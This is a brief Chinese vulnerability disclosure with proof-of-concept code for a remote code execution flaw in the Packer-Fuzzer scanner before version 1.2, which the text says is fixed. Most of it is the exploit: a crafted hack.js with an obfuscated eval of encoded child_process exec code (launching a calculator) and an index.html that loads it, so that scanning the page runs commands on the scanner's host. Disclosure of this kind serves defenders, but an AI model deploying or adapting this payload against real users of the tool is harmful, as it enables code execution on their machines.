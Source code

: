 # Packer-Fuzzer 漏扫工具 < 1.2 远程代码执行漏洞

利用Packer-Fuzzer扫描加载恶意Payload的网站从远程加载恶意JS导致命令执行。

目前发布的1.2版本已经修复。

**hack.js：**

```js
document.createElement("script");
q.p+"";eval(decodeURI("require(%27child_process%27).e%78ec(%27mate-calc%27)"));//"{114514:;[s].js 
```

**index.html：**

```html
<html>
    <noscript>naive!</noscript>
    <body>
        <script src="./hack.js"></script>
    </body>
</html>
```

详细分析见：https://drivertom.blogspot.com/2021/01/packer-fuzzerrce-0day.html

PoC from：https://github.com/TomAPU/poc_and_exp/tree/master/Packer-Fuzzer-RCE